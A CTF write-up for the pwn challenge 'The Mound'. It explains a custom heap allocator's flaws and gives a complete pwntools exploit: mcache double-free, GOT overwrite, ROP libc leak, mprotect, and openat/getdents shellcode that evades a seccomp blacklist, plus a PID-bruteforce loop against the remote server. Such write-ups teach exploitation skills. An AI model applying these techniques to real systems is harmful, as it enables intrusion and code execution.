





There is a longer, more detailed version of this writeup on [my blog](#TODO). Read this version if you're only interested in the _intended solution_ for The Mound. 

## TL;DR

- The challenge implements its own heap (known as the `Mound`), effectively equivalent to the glibc heap if it only had the `tcache`.
- `case 1` provides a glibc heap pointer via `strdup()`, and these pointers can be sent to `mfree()` with the smart application of directly adjacent glibc chunks
- Putting glibc pointers into the `Mound` allows for semi-arbitrary `mound` ID removal/registration
- this can be used to produce double-frees, and thereby a `tcache` dup-like situation
- use the `mcache` dup to overwrite the `top` pointer for the `mcache`'s equivalent of the `main_arena` for arbitrary write
- use GOT overwrite to get to `win()`
- leak libc, mprotect, run shellcode to extract flag 

# The Mound [800]

_The glibc heap is too insecure. I took matters into my own hands and swapped efficiency for security._

**Files**: mound.zip

```
Archive:  mound.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
    18160  2021-08-06 09:14   mound/mound
      451  2021-08-06 04:38   ctf.xinetd
      566  2021-08-06 17:08   Dockerfile
      100  2021-08-06 16:43   setup.sh
       25  2021-08-06 04:39   start.sh
       22  2021-08-06 17:30   flag.txt
  2029224  2021-08-06 17:13   libc.so.6
```

Relevant details:

```sh
$ checksec mound/mound
[*] '/mound'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO     # !
    Stack:    No canary found   # !
    NX:       NX enabled
    PIE:      No PIE (0x400000) # !
$ seccomp-tools dump mound/mound
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0c 0xc000003e  if (A != ARCH_X86_64) goto 0014
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x0a 0x00 0x40000000  if (A >= 0x40000000) goto 0014
 0004: 0x15 0x09 0x00 0x0000003b  if (A == execve) goto 0014
 0005: 0x15 0x08 0x00 0x00000142  if (A == execveat) goto 0014
 0006: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0014
 0007: 0x15 0x06 0x00 0x00000003  if (A == close) goto 0014
 0008: 0x15 0x05 0x00 0x00000055  if (A == creat) goto 0014
 0009: 0x15 0x04 0x00 0x00000086  if (A == uselib) goto 0014
 0010: 0x15 0x03 0x00 0x00000039  if (A == fork) goto 0014
 0011: 0x15 0x02 0x00 0x0000003a  if (A == vfork) goto 0014
 0012: 0x15 0x01 0x00 0x00000038  if (A == clone) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
$ ./libc-database/identify libc.so.6
libc6_2.31-0ubuntu9.1_amd64
```

The seccomp filter is a little bit interesting, but I'll cover it [later on](#using-win). It's also worth noting that `setup.sh` contains this line:

```sh
$ cat setup.sh
#!/bin/sh
mv /pwn/flag.txt /pwn/$(xxd -l 16 -p /dev/urandom).txt
```

## Working backwards

`mount` has a good number of functions: 

<p align="center">

</p>

There's a function named `win`; that seems rather important.

```c
ssize_t win() {
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF
  puts("Exploiting BOF is simple right? ;)");
  return read(0, buf, 0x1000uLL);
}
```

<p align="center">

</p>

The binary doesn't have PIE or stack canaries _or RELRO_ enabled, so the bulk of this challenge must be in gaining RIP control via a GOT overwrite.

## Program outline

This is `main()` (partially prettified):

```c
void *arr[16];    // .bss:0x404180
size_t sizes[16]; // .bss:0x404200
int main() {
  unsigned int user_sz; // [rsp+8h] [rbp-118h] BYREF
  unsigned int idx; // [rsp+Ch] [rbp-114h] BYREF
  char s[0x110]; // [rsp+10h] [rbp-110h] BYREF

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  install_seccomp();
  puts("I am the witch mmalloc");
  puts("Force, Prime, Mind, Lore, Chaos, Orange, Einharjar, Poortho, Spirit, Red, Roman, Corrosion, Crust, Rust, all is known to me.");
  puts("It is, from all of my training, that I have seen the flaws in glibc heap.");
  puts("Welcome, fellow pwner, to The Mound");
  moundsetup();
  memset(s, 0, 0x100uLL);
  while ( 1 ) {
#define REJECT {puts("No."); break;}
    switch ( int opt = menu() ) {
      case 4: // free
        printf("Pile index: ");
        __isoc99_scanf("%d", &idx);
        if ( idx <= 0xF && arr[idx] ) {
          mfree(arr[idx]);
          sizes[idx] = 0LL;
        } else REJECT;
        break;
      case 3: // edit
        printf("Pile index: ");
        __isoc99_scanf("%d", &idx);
        if ( idx > 0xF || !arr[idx] || !sizes[idx] ) REJECT;
        getinput("New pile: ", (void *)arr[idx], sizes[idx]);
        break;
      case 1: // really bad things
        getinput("Pile: ", s, 0x100uLL);
        printf("Pile index: ");
        __isoc99_scanf("%d", &idx);
        if ( idx > 0xF ) REJECT;
        arr[idx] = strdup(s);
        sizes[idx] = strlen(s);
        break;
      case 2: // add
        printf("Size of pile: ");
        __isoc99_scanf("%d", &user_sz);
        if ( user_sz <= 0xFFF ) {
          printf("Pile index: ");
          __isoc99_scanf("%d", &idx);
          if ( idx > 0xF ) REJECT;
          arr[idx] = mmalloc(user_sz);
          sizes[idx] = 0LL;
          getinput("Pile: ", (void *)arr[idx], user_sz);
        }
        else puts("A bit too much dirt my friend.");
        break;
      default:
        puts("Cya later :p");
        exit(0);
    }
  }
}
```

That's pretty long. Let's break it up into two segments: the preamble, and the `while(1)` loop.

### Preamble

`main()` doesn't have a lot of variables.

```c
  unsigned int user_sz; // [rsp+8h] [rbp-118h] BYREF
  unsigned int idx; // [rsp+Ch] [rbp-114h] BYREF
  char s[0x110]; // [rsp+10h] [rbp-110h] BYREF
```

The 3 variables here are user-editable, and we'll talk about them later. Just keep in mind that `user_sz` and `idx` are **unsigned** integers written to with `scanf("%d")` calls later on, and `s[]`  is written to with a non-overflowing, non-zero-terminating<sup>1</sup> `read()` call.

After this, `main()` runs a bunch of initialisers:

```c
  setvbuf(...);      // all 3 i/o streams are unbuffered
  install_seccomp(); // start seccomp filter as shown at the start of this writeup
  puts(...);    // intro message
  moundsetup(); // setup the "mound"; this challenge's heap implementation
  memset(s, 0, 0x100uLL); // don't think too much about this; s[] can still be used for a leak if you try hard enough
```

The only complicated function here is `moundsetup()`; skip ahead to [this part of the writeup](#mound) if you want to understand it. If not:

### `main()`'s loop

The CLI gives five options:

```
1. Add sand
2. Add dirt
3. Replace dirt
4. Remove dirt
5. Go home
```

Here's a skeleton script to deal with the options:

```python
from pwnscripts import *
context.binary = 'mound'
context.libc = 'libc.so.6'
r = context.binary.process()
def choose(opt: int): r.sendlineafter(b'> ', str(opt))
def strdup(s: bytes, i: int):
    choose(1)
    r.sendafter(b'Pile: ', s)
    r.sendlineafter(b'index: ', str(i))
def add(sz: int, idx: int, s: bytes):
    choose(2)
    assert sz < 0x1000
    assert len(s) <= sz
    r.sendlineafter('pile: ', str(sz))
    r.sendlineafter('index: ', str(idx))
    r.sendafter('Pile: ', s)
def edit(idx: int, s: bytes):
    choose(3)
    r.sendlineafter('index: ', str(idx))
    r.sendafter('pile: ', s)
def free(idx: int):
    choose(4)
    r.sendlineafter('index: ', str(idx))  
```

(5) just calls `exit(0)`, but the rest are more complex.

#### Add sand

```c
case 1: // really bad things
  getinput("Pile: ", s, 0x100uLL);
  printf("Pile index: ");
  scanf("%d", &idx);
  if ( idx > 0xF ) REJECT;
  arr[idx] = strdup(s);
  sizes[idx] = strlen(s);
  break;
```

This option is really weird. A user-inputted stream of bytes --- not necessarily nul-terminated --- are sent to `strdup`, and the resultant _glibc malloc'd string_ is stored at `arr[idx]`. This means that some of `arr[]`'s elements can be a mixture of _mound_ pointers, and actual glibc heap pointers.

It's also worth noting that the `str*` functions here can overflow, depending on whether the stack has extra nul-bytes or not.

#### Add dirt

```c
case 2: // add
  printf("Size of pile: ");
  scanf("%d", &user_sz);
  if ( user_sz <= 0xFFF ) {
    printf("Pile index: ");
    scanf("%d", &idx);
    if ( idx > 0xF ) REJECT;
    arr[idx] = mmalloc(user_sz);
    sizes[idx] = 0LL;
    getinput("Pile: ", (void *)arr[idx], user_sz);
  } else puts("A bit too much dirt my friend.");
break;
```

So this is a little bit interesting. The maximum allocation size is `0xfff`; `user_sz` is an `unsigned` so the single-bounded comparison works out. For some reason, `sizes[idx]` is set to `0` instead of `user_sz`. This is a little bit weird because of `case 3`:

#### Replace dirt

```c
case 3: // edit
  printf("Pile index: ");
  scanf("%d", &idx);
  if ( idx > 0xF || !arr[idx] || !sizes[idx] ) REJECT;
  getinput("New pile: ", (void *)arr[idx], sizes[idx]);
  break;
```

`sizes[idx]` has to be non-zero for the edit to pass. Since Option 2 sets `sizes[idx]` to 0, `arr[idx]` can only be edited if it's a pointer from the glibc heap in `case 1`, or if `sizes[idx]` can be modified somewhere else.

#### Remove dirt

```c
case 4: // free
  printf("Pile index: ");
  scanf("%d", &idx); // remember that `idx` itself is typed as unsigned.
  if ( idx <= 0xF && arr[idx] ) {
    mfree(arr[idx]);
    sizes[idx] = 0LL;
  } else REJECT;
  break;
```

This option calls `mfree()` on `arr[idx]`. There's only one bug here, and it's that `arr[idx]` is not zeroed.

So, this is a little bit odd. There are obvious Bad Things going on in these options, but the exploit required isn't immediately obvious here. I'll need to dive deeper into the `mound` implementation.

## Mound

The `mound` is kind of like the glibc heap, if it had nothing but the tcache.

At the start of the program, the `mound` grabs two big memory spaces from `mmap`:

```c
0x00000beef0000000 0x00000beef0400000 0x0000000000000000 rw-
0x00000dead0000000 0x00000dead0009000 0x0000000000000000 rw-
```

`0xbeef*` stores the actual data distributed by `mmalloc`; I'll call it `mound_data`. At the beginning of its life, the entirety of the `mound_data` segment constitutes the "top chunk" of the `mound`.

`0xdead*` stores the metadata for the `mound`, kind of like what `main_arena` does in glibc. The structure looks something like this:

```c
typedef struct mound_metadata {
    void *mound_base; // = 0xbeef0000000; never used for anything
    size_t ids[0x1000]; // rand64() ids assigned to every chunk allocated by mmalloc.
    mcache_struct *mcache; // tcache, but for the mound.
    mchunk *top; // pointer to the top chunk
} mound_metadata; // sizeof(mound_metadata) == 0x8018
mound_metadata mound_arena; // cs:0xdead0000000
```

The new types in there are further defined like so:

```c
typedef struct mchunk {
    size_t id; // rand64() id.
    size_t sz; // the chunk size (inclusive of metadata)
    char data[0]; // length is dependent on the size provided to mmalloc() 
}
typedef struct mcache_entry {
    struct mchunk; // i.e. extend/inherit the mchunk structure here
    mcache_struct *mcache; // a copy of the mcache for safety verification
    mcache_entry *next; // next mcache entry; this is a linked list like the tcache.
}
#define MCACHE_MAX_BINS 0x18
typedef struct mcache_struct {
    uint8_t counts[MCACHE_MAX_BINS];
    mcache_entry *entries[MCACHE_MAX_BINS];
}
```

The most interesting part of each `mchunk` is (in my opinion, anyway) the `id` element. Every chunk is assigned a random 64-bit UUID (with a very small chance of collision<sup>2</sup>) upon allocation. When a chunk is freed, that ID gets chucked into the `mound_metadata` to protect the program against a double-free.

This might make a lot more sense if I give a flowchart of how things work:

<p align="center">

</p>

Relevant macros:

```c
#define request2size(x) ((-x&0xf)+x+0x10) // x rounded up to nearest 0x10, plus 0x10. Applies for -ve numbers too.
#define csize2midx(x) ((x>>4)-2)
#define chunk2mem(p) ((void*)p+0x10)
#define mem2chunk(p) ((void*)p-0x10)
```

I copied and adapted some of these to python as well:

```python
def csize2midx(x:int): return (x>>4)-2
def midx2csize(i:int): return (i+2)<<4
def size2request(x:int): return x-0x10
def request2size(x:int): return x+0x10
def midx2rsize(i:int): return size2request(midx2csize(i))
```

With this high-level overview of the implementation in mind, I can return to the previous question: What are the consequences of sending a glibc heap pointer to `mfree()`?

### Mixing heap allocators

Simply freeing a glibc heap pointer will almost certainly produce an `exit(1)`:

```
1. Add sand
2. Add dirt
3. Replace dirt
4. Remove dirt
5. Go home
> 1
Pile: hi
Pile index: 0
1. Add sand
2. Add dirt
3. Replace dirt
4. Remove dirt
5. Go home
> 4
Pile index: 0
Mound: Double free detected
```

The relevant part of the code to check is the `find_id(c->id)` call:

```c
void find_id(size_t id) {
  for ( int i = 0; i <= 4095; ++i )
    if ( id == mound_arena.ids[i] ) {
      puts("Mound: Double free detected");
      exit(1);
    }
}
```

A typical `malloc_chunk` looks like this:

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
};
```

Because `c->id` occupies the same space as a `malloc_chunk`'s `mchunk_prev_size` member, the `prev_size` of the glibc heap chunk is taken as the `id` in  `find_id`. The glibc chunk pointers allocated by `strdup()` will _never_ be free, so `prev_size == id` should always be 0, and `find_id(c->id)` should always result in an error given a glibc heap chunk.

Or not.

## The Obvious Solution

It takes me a while, but I eventually realise that the preceding paragraph is false. Sequential malloc chunks can use the `prev_size` field to store user data:

<p align="center">

</p>

This means that if I call `strdup("A"*0x17)` twice in succession, the first `strdup()` chunk allocated can be used to overwrite the `prev_size` of the 2nd `strdup()` chunk:

```python
strdup(b''.rjust(0x17,b'a'), 0)
strdup(b''.rjust(0x17,b'a'), 1)
edit(0, b''.rjust(0x17,b'a'))
```

<p align="center">

</p>

Using this method, the interpreted `mchunk->id` for a glibc heap chunk can be modified to any value within `range(0, 1<<56)`.

```python
# register an arbitrary 56-bit id onto the mound's free id list
def reg_id(id: int):
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(id)[:7].rjust(0x17, b'a'))
    free(0)
```

What are the consequences of this? Adding a new `id` to `mound_arena.ids[]` is pretty useless; it would only make allocations _harder_ instead of easier. I could also try to get rid of an ID:

```python
def r64(): return randint(0, (1<<64)-1) # generate random ids. Unrelated to rand64bit()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(r64())[:7].rjust(0x17, b'a'))
    free(1)
    edit(0, pack(id)[:7].rjust(0x17,b'a'))
    add(0x10, 2, b'a'*0x10)
```

Then I'd be able to free the same region of memory twice, like this:

```python
from ctypes import CDLL
libc = CDLL('libc.so.6')
# r = ...
libc.srand(libc.time(0)^r.pid) # pid will have to be guessed on remote
def rand64bit(): return libc.rand() + (libc.rand()<<32)
# ... omitted code ...
# ... make sure to account for rand() calls throughout code as well ...
while 1:
    add(sz=0x20, idx=0xf, b'hi')
	if not ((chunk_id := rand64bit()) >> 56): break
free(0xf)
rm_id(chunk_id)
free(0xf)
```

This is a classic tcache dup, except with the `mcache` instead. Once you accomplish this much, getting to `win()` isn't much of a challenge.

### Getting to `win()`

Right now, `mcache->entries[1] == [arr[0xf] -> arr[0xf]]`. `arr[0xf]->next` can be modified to anything, so long as `(mcache_entry*)(arr[0xf]->next)->mcache == mound_arena.mcache`. Taking a hint from the the definition, I'll try to point `->next` to `mound_arena.mcache-0x10`, because it's the only non-user-controlled region that happens to have an `mcache` pointer.

```python
add(0x20, 0xe, fit(0xbeef0000010, 0xdead0007ff8))
```

The linked list here is now `[arr[0xf] -> mound_arena+0x7ff8]`. As a reminder, the `mound_arena` looks like this:

```c
typedef struct mound_metadata {
    void *mound_base; // = 0xbeef0000000; never used for anything
    size_t ids[0x1000]; // rand64() ids assigned to every chunk allocated by mmalloc.
    mcache_struct *mcache; // tcache, but for the mound.
    mchunk *top; // pointer to the top chunk
} mound_metadata; // sizeof(mound_metadata) == 0x8018
```

Right after the `mcache` is the `top` pointer. Pulling two items off of the mcache linked list will get the `top` pointer overwritten with user-controllable data:

```python
add(0x20, 0xd, 'hi')
add(0x20, 0xc, fit(mound_data.mcache, context.binary.got['setvbuf']))
```

Here, I'm overwriting `mound_data.top` with a GOT pointer to gain RIP control:

```python
add(0x40, 0xb, pack(context.binary.sym.win)) # this will overwrite got.scanf()
```

And now the exploit reaches `win()`:



Simple enough, right?

## Using `win()`

The seccomp filter for this challenge is mildly interesting. Normally, seccomp'd binaries have a _whitelist_ for permitted syscalls, but in this situation, there's only a _blacklist_ against a few. The blacklisted items give pause for thought: both `execve` and `open` are banned, and normally you'd use the former to pop a shell, and the latter for an [open-read-write](https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/) chain.

But before I get ahead of myself, let's talk about how to get to arbitrary syscalls first.

### Moving to rwx

There aren't a lot of gadgets in the main binary, so it might be better to leak libc first.

```python
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
```

Once that's done, I can abuse gadgets in libc to convert the `mound_data` memory region into an rwx page:

```python
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
```

This only makes sense if `mound_data.shellcode` actually points to an area of user-written shellcode. I handled this by writing shellcode to `mound_data` using `add()`, long before the mcache dup happens:

```python
# ... everything up until the first few add() calls ...
sc = ... # I'm about to cover this part.
sc = asm(sc) # don't call asm() twice
add(len(sc), 8, sc) # dump shellcode somewhere in mound_data for later use
# ... everything else, e.g. getting mcache dup ...
```

Figuring out _what_ shellcode to run isn't too difficult, if you have a [syscall reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) in hand. This challenge shows why you shouldn't use a seccomp blacklist: `open` might be banned, but [openat](https://linux.die.net/man/2/openat) certainly isn't. I'll start off with some shellcode to open the `/pwn/` folder:

```python
sc = shellcraft.pushstr('/pwn')
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY)
sc+= 'mov QWORD PTR [{}], rax\n'.format(0xbeef0000000)
sc+= shellcraft.getdents64('rax', 0xbeef0010000, 0x10000) # use getdents() to list a directory
```

After that, I'll apply a basic assembly loop to search for `.txt`:

```python
sc+= shellcraft.mov('rax', 0xbeef0010000)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(u32('.txt'))
sc+= 'jne loop\n'
# End result: *(int*)rax == u32(".txt")
```

Since the flag's filename is always 0x20+4 bytes long, the beginning of the flag filename will be at `rax-0x20` , and I can use `openat` again to write the flag to stdout:

```python
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(0xbeef0000000)
sc+= shellcraft.openat('rax', 'rbx', 0)          # i.e. shellcraft.cat('rbx'), but
sc+= shellcraft.read('rax', 0xdead0000000, 100)  # because pwntools uses SYS_open 
sc+= shellcraft.write(1, 0xdead0000000, 100)     # I have to do this in 3 lines.
```

### Getting the flag

For reference, this is what the full script should look like at this point:

```python
from random import randint
from collections import namedtuple
from ctypes import CDLL
from pwnscripts import *

BEEF, DEAD = 0xbeef0000000, 0xdead0000000
mound_arena = namedtuple('mound_metadata', 'base ids mcache top')(DEAD, DEAD+0x8, DEAD+0x8008, DEAD+0x8010)
mound_data = namedtuple('beef', 'base mcache dents shellcode')(BEEF, BEEF+0x10, BEEF+0x10000, BEEF+0x100)
midxs = namedtuple('midb', 'prev_size_editor fakeid_provider strdup mcache_dup got_overwriter')(5, 6, 0, 1, 2)

context.binary = 'mound'
context.libc = 'libc.so.6'
libc = CDLL('libc.so.6')
t = libc.time(0)
r = context.binary.process()
libc.srand(t^r.pid)

# I/O methods
def choose(opt: int): r.sendlineafter(b'> ', str(opt))
def strdup(s: bytes, i: int):
    choose(1)
    r.sendafter(b'Pile: ', s)
    r.sendlineafter(b'index: ', str(i))
def add(midx: int, idx: int, s: bytes):
    choose(2)
    sz = midx2rsize(midx)
    assert sz < 0x1000
    assert len(s) <= sz
    r.sendlineafter('pile: ', str(sz))
    r.sendlineafter('index: ', str(idx))
    r.sendafter('Pile: ', s)
def edit(idx: int, s: bytes):
    choose(3)
    r.sendlineafter('index: ', str(idx))
    r.sendafter('pile: ', s)
def free(idx: int):
    choose(4)
    r.sendlineafter('index: ', str(idx))

def csize2midx(x:int): return (x>>4)-2
def midx2csize(i:int): return (i+2)<<4
def size2request(x:int): return x-0x10
def request2size(x:int): return x+0x10
def midx2rsize(i:int): return size2request(midx2csize(i))
def r64bit(): return libc.rand()+(libc.rand()<<32) # emulate rand64bit
def r64(): return randint(0, (1<<64)-1) # a separate, unrelated function to produce random numbers

O_DIRECTORY, FLAG_LEN = 0x10000, 100 # use reasonably long values here
sc = '' # step 1: getting a directory listing
sc+= shellcraft.pushstr('/pwn') # put "/pwn" on the stack
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY) # use openat in lieu of open. rsp because of pushstr
sc+= 'mov QWORD PTR [{}], rax\n'.format(mound_data.base) # Store the resultant fd _somewhere_ accessible (mound_data.base)
sc+= shellcraft.getdents64('rax', mound_data.dents, 0x10000) # use getdents to list directory
# step 2: loop through the dents data to find the flag filename
sc+=shellcraft.mov('rax', mound_data.dents)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(hex(u32('.txt')))
sc+= 'jne loop\n'
# step 3: open the flag file, read to _somewhere_ (mound_arena.base), and write to stdout
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(mound_data.base)
sc+= shellcraft.openat('rax', 'rbx', 0)
sc+= shellcraft.read('rax', mound_arena.base, FLAG_LEN)
sc+= shellcraft.write(1, mound_arena.base, FLAG_LEN)
sc = asm(sc) # don't call asm() twice
add(1+csize2midx(request2size(len(sc))), 8, sc) # dump shellcode somewhere in mound_data for later use

# The Obvious Solution: mcache dup --> mound_arena.top overwrite --> GOT table edit to win()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 5)
    strdup(b'a'*0x17, 6)
    edit(midxs.prev_size_editor, pack(r64())[:7].rjust(0x17, b'a'))
    free(midxs.fakeid_provider)
    edit(midxs.prev_size_editor, pack(id)[:7].rjust(0x17,b'a'))
    add(midxs.strdup, 7, b'a'*0x10)
for _ in range(3): r64bit() # There have been 3 rand64bit() calls so far; account for them.
while 1: # try adding until there's an ID with a null MSB
    add(midxs.mcache_dup, 0xf, b'hi')
    if not ((chunk_id := r64bit()) >> 56): break
free(0xf)
rm_id(chunk_id)
free(0xf) # mcache dup
add(midxs.mcache_dup, 0xe, fit(mound_data.mcache, mound_arena.mcache-0x10)) # overwrite ->next
add(midxs.mcache_dup, 0xd, 'hi')
add(midxs.mcache_dup, 0xc, fit(mound_data.mcache, context.binary.got['setvbuf'])) # overwrite .top
add(midxs.got_overwriter, 0xb, pack(context.binary.sym.win)) # overwrite got['scanf']

# win() will execute. Leak libc in the first cycle.
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
# Using libc, change 0xbeef* to an rwx page, and jump to the shellcode that was allocated there earlier on.
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
# get flag
print(r.recvall())
```

Locally, this works!

```c
[*] [libc] Running '/mound' with libs in '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64'!
[+] Starting local process '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/ld-linux-x86-64.so.2': pid 10422
[*] Loaded 15 cached gadgets for 'mound'
[*] Loaded 201 cached gadgets for '/libc-database/db/libc6_2.31-0ubuntu9.1_amd64.so'
[+] Receiving all data: Done (100B)
[*] Stopped process '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/ld-linux-x86-64.so.2' (pid 10422)
b'test{flag}\n.^J\xb5o\x00\x00\x00\x00\x00\x00\x00\x00\xc72\x89f\xe9O\xc1\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

On remote, this is a little more difficult. Paying attention to these two local-specific lines:

```python
r = context.binary.process()
libc.srand(t^r.pid)
```

I need some method to guess the PID of the challenge on remote. Considering that the standard maximum PID number is `1<<15`, I decided to try my luck with bruteforcing it, replacing the code above with,

```python
r = remote('193.57.159.27', 41932)
libc.srand(t^int(args.PID))
```

 And executing the following shell script:

```sh
for i in `seq 1 3 32768` # increment PID by 3 for every guess; internally in the docker container
do python3.8 mound.py PID="$i" # the PID increases by 2 for every connection, so this improves the guessing 
done | tee mound.log
```

It doesn't work the first time around, but I repeat the process to obtain the flag:

```sh
$ grep { *.log
mound2.log:b'rarctf{all0c4t0rs_d0_n0t_m1x_e45a1bf0b2}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Segmentation fault\n'
```

And with that, I'm done.

## Footnotes

1. This isn't particularly useful. There's no way to leak pointers outside of `win()`.

2. I tried looking for seeds that would produce repeated cycles:

   ```python
   from ctypes import CDLL
   LIBC = CDLL('libc.so.6')
   t = LIBC.time(0)
   t &= 0xffffffffffff0000
   for i in range(t,t+0xffff):
       LIBC.srand(i)
       seen = set(LIBC.rand() for j in range(0x1000))
       if len(seen) < 0xff0: print(i, len(seen))
   ```

   The script found nothing.
